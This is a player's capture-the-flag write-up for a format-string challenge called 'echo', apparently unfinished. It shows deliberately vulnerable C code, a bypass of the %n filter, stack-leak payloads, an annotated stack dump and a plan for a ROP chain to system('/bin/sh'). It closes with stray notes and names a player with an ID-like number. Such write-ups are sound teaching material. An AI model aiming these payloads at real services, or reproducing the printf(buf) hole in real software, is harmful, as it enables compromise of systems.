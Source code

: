 # Player
- Tim Niklas Gruel 1080 2021 2831
- username: realy0sh1

# Writeup: "echo"
- story:  no story :/
- start docker:
```
docker compose up
nc 127.0.0.1 1024
```
- we have the following C-code
```c
int main(void)
{
    char buf[128];
    regex_t re;
    int result;

    /*
     * The overall syntax of a conversion specification is
     *   %[$][flags][width][.precision][length modifier]conversion
     * (as per `man 3 printf`)
     * So we just filter for %n...
     * Surely it is safe now (<- clueless)
     */

    if ((result = regcomp(&re, "%\\$?[-#0 +'I]*(\\*|[1-9][0-9]*)?(\\.(\\*|[1-9][0-9]*))?([hlqLjzZt]|ll|hh)?n", REG_EXTENDED | REG_NOSUB))) {
        regerror(result, &re, buf, sizeof(buf));
        errx(1, "Failed to compile regex: %s", buf);
    }

    setbuf(stdout, NULL);
    while (fgets(buf, sizeof(buf), stdin)) {
        if (regexec(&re, buf, 0, NULL, 0) != REG_NOMATCH)
            errx(1, "Hacking attempt detected!");
        printf(buf);
    }
}
```
-lets analyze the regex
```c
"%\\$?[-#0 +'I]*(\\*|[1-9][0-9]*)?(\\.(\\*|[1-9][0-9]*))?([hlqLjzZt]|ll|hh)?n"
```
- the double \\ just means that the c code contains a \, which itself esacpes the $ in the regex (else $ means finish)=> \\$ just means $
```c
"%$?  [-#0 +'I]*  (*|[1-9][0-9]*)?  (.(*|[1-9][0-9]*))?  ([hlqLjzZt]|ll|hh)?  n"
```
- below are format strings that are allowed
```
%42x     <-- write arbitrary (hardcoded) # chars
%2$*1$d  <-- leak value (as int) of first parameter ()

```


## 1) leak ASLR:
- print 64-bit values of (rdi, rsi, rdx, rcx, r8, r9, stack) in hex via
```
%1$llx
%2$llx
%3$llx
...
%400$llx
```
- 48-bit (6-Byte) values are addresses
- 64-bit values (just before an 48-bit return address) is probably the canary (same for all stackframes)
- the 35-th value is an address of libc
```
%35$llx
```

## 2) find out where stack is
i printed recognizable chars into the buffer of the stack, and then printed a vakue:
```
AAAAAAAABBBBBBBB%1$llx
```
```
rdi = 0x18
rsi = 0x1
rdx = 0x0
rcx = 0x7ffe84ee0d00                            <-- this is the address of the start of the buffer
 r8 = 0x17
 r9 = 0x5695a9ede3b0
ret + 8 (input 7) = 0xe0
ret + 16 (input 8) = 0xe0
ret + 24 (input 9) = 0x3b2fc
ret + 32 (input 10) = 0x5695a9ede2a0
ret + 40 (input 11) = 0x0
ret + 48 (input 12) = 0x4
ret + 56 (input 13) = 0x18
ret + 64 (input 14) = 0x4141414141414141        <-- buffer starts here (128Bytes = 8*16 Bytes)
ret + 72 (input 15) = 0x4242424242424242    
ret + 80 (input 16) = 0xa786c6c24363125
ret + 88 (input 17) = 0x0
ret + 96 (input 18) = 0x0
ret + 104 (input 19) = 0x0
ret + 112 (input 20) = 0x0
ret + 120 (input 21) = 0x0
ret + 128 (input 22) = 0x0
ret + 136 (input 23) = 0x0
ret + 144 (input 24) = 0x0
ret + 152 (input 25) = 0x0
ret + 160 (input 26) = 0x0
ret + 168 (input 27) = 0x0
ret + 176 (input 28) = 0x0                      <-- buffer ends here (write here address where we want to write to)
ret + 184 (input 29) = 0x0
ret + 192 (input 30) = 0x0
ret + 200 (input 31) = 0xd5e379c229233300       <-- probably canary (we do not need it)
ret + 208 (input 32) = 0x0
ret + 216 (input 33) = 0x0
ret + 224 (input 34) = 0x1
ret + 232 (input 35) = 0x767384029d90           <-- return address override with first rop gadget (pop rdi; ret;)
ret + 240 (input 36) = 0x0                      <-- write pointer to \bin\sh here (gets popped)
ret + 248 (input 37) = 0x5695a88340c0           <-- write pointer to system here (will return)
ret + 256 (input 38) = 0x100000000
ret + 264 (input 39) = 0x7ffe84ee0eb8
ret + 272 (input 40) = 0x0
ret + 280 (input 41) = 0x10276163c33eb5ef
ret + 288 (input 42) = 0x7ffe84ee0eb8
ret + 296 (input 43) = 0x5695a88340c0
ret + 304 (input 44) = 0x5695a8836dd8
ret + 312 (input 45) = 0x76738430e040
ret + 320 (input 46) = 0xefda68bfd85cb5ef
ret + 328 (input 47) = 0xfcc06966f9b4b5ef
ret + 336 (input 48) = 0x767300000000
ret + 344 (input 49) = 0x0
ret + 352 (input 50) = 0x0
ret + 360 (input 51) = 0x0
ret + 368 (input 52) = 0x0
ret + 376 (input 53) = 0xd5e379c229233300
ret + 384 (input 54) = 0x0
ret + 392 (input 55) = 0x767384029e40           <-- this is a libc pointer, clear lower 19bits to get aslr offset
```
- we want to override input 35, 36 and 37
- later on we break out of loop by sending forbidden input and hopefully trigger rop chain
- we can make our live easy and only write 8 Bytes at a time, then do another loop iteration, then we do not need to care about only writing higher and higher bytes
- first we write to "address" = start_of_buffer + 168 
    - we achieve this by writing "address" into first 8 bytes of buffer
    - then writing to the 14-th argument (is start of buffer), gets interpreted as pointer
    - thus we write to the memory we want to: "address"

- then we write to start_of_buffer + 168 + 8 = 176
- tehn we write to start_of_buffer + 168 + 8 + 8 = 184


0x7ffd6782c490

ret + 400 = 0x7ffd6782c658


ret + 264 = 0x7ffd6782c648
ret + 448 = 0x7ffd6782c640
ret + 480 = 0x7ffd6782c638
